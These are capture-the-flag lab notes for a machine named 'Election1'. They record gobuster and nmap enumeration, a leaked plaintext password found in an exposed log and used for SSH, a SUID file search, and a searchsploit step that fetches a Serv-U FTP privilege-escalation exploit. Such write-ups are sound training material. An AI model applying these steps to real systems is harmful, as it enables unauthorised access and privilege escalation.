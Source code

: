 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Election1
# 23/2/2023

----------------------------------------------------
# gobuster
----------------------------------------------------
/javascript           (Status: 301) [Size: 323] [--> http://192.168.110.211/javascript/]
/election             (Status: 301) [Size: 321] [--> http://192.168.110.211/election/]
/phpmyadmin           (Status: 301) [Size: 323] [--> http://192.168.110.211/phpmyadmin/]
└─$ gobuster dir -u http://192.168.110.211/election -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -t 40
http://192.168.110.211/election/admin/
/media                (Status: 301) [Size: 327] [--> http://192.168.110.211/election/media/]
/themes               (Status: 301) [Size: 328] [--> http://192.168.110.211/election/themes/]
/data                 (Status: 301) [Size: 326] [--> http://192.168.110.211/election/data/]
/admin                (Status: 301) [Size: 327] [--> http://192.168.110.211/election/admin/]
/lib                  (Status: 301) [Size: 325] [--> http://192.168.110.211/election/lib/]
/languages            (Status: 301) [Size: 331] [--> http://192.168.110.211/election/languages/]
/js                   (Status: 301) [Size: 324] [--> http://192.168.110.211/election/js/]
└─$ gobuster dir -u http://192.168.110.211/election/admin -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -t 40
/img                  (Status: 301) [Size: 331] [--> http://192.168.110.211/election/admin/img/]
/plugins              (Status: 301) [Size: 335] [--> http://192.168.110.211/election/admin/plugins/]
/css                  (Status: 301) [Size: 331] [--> http://192.168.110.211/election/admin/css/]
/ajax                 (Status: 301) [Size: 332] [--> http://192.168.110.211/election/admin/ajax/]
/js                   (Status: 301) [Size: 330] [--> http://192.168.110.211/election/admin/js/]
/components           (Status: 301) [Size: 338] [--> http://192.168.110.211/election/admin/components/]
/inc                  (Status: 301) [Size: 331] [--> http://192.168.110.211/election/admin/inc/]
/logs                 (Status: 301) [Size: 332] [--> http://192.168.110.211/election/admin/logs/]
http://192.168.110.211/election/admin/logs/
└─$ cat system.log           
[2020-01-01 00:00:00] Assigned Password for the user love: P@$$w0rd@123
[2020-04-03 00:13:53] Love added candidate 'Love'.
[2020-04-08 19:26:34] Love has been logged in from Unknown IP on Firefox (Linux).
now ssh via love

----------------------------------------------------
# nmap result
----------------------------------------------------
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

----------------------------------------------------
# priv esc
----------------------------------------------------
find / -perm -u=s -type f 2>/dev/null
 searchsploit Serv-U FTP Server    
 └─$ searchsploit -m 47009.c
